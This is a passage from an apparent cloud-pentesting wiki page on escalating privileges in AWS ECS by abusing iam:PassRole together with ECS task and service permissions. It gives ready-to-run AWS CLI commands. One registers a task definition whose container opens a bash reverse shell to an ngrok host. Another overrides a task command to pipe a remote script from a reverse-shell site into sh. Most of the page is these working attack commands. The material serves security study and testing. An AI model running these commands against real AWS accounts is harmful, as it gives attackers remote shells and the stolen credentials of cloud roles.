 **Potential Impact:** Direct privesc to any ECS role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`

Just like in the previous example an attacker abusing the **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** or **`ecs:CreateService`** permissions in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it by creating a new service with at least 1 task running.**

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn  "$ECS_ROLE_ARN" \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --requires-compatibilities "[\"FARGATE\"]" \
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"

# Run the task creating a service
aws ecs create-service --service-name exfiltration \
    --task-definition iam_exfiltration \
    --desired-count 1 \
    --cluster "$CLUSTER_ARN" \
    --launch-type FARGATE \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
    --service <SERVICE NAME> \
    --task-definition <NEW TASK DEFINITION NAME>
```

**Potential Impact:** Direct privesc to any ECS role.

### `iam:PassRole`, (`ecs:UpdateService|ecs:CreateService)`

Actually, just with those permissions it's possible to use overrides to executer arbitrary commands in a container with an arbitrary role with something like:

{% code overflow="wrap" %}
```bash
aws ecs run-task \
    --task-definition "<task-name>" \
    --overrides '{"taskRoleArn":"<role-arn>", "containerOverrides":[{"name":"<container-name-in-task>","command":["/bin/bash","-c","curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh"]}]}' \
    --cluster <cluster-name> \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"DISABLED\", \"subnets\":[\"<subnet-name>\"]}}"
```
{% endcode %}
